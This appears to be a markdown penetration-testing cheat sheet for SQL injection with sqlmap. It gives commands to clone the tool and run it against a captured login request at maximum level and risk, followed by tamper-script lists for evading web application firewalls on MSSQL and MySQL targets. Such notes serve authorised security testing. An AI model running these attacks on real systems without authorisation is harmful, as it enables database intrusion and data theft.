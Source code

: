 # SQL Injections

## SQLMap

### Clone from dev for bleeding edge:
`git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev`

### Run SQLMap via a file 
```python sqlmap-dev/sqlmap.py -r login-request.txt```

### Run from file with threads:
```python sqlmap-dev/sqlmap.py -r login-request.txt --threads=10```

### Run from file with threads and level:
```python sqlmap-dev/sqlmap.py -r login-request.txt --level=5 --risk=3```

## Tamper all the things:

### General Tamper Testing:
```tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes```

### MSSQL Tamper Testing: 
```tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes```

### MySQL Tamper Testing:
```tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor```

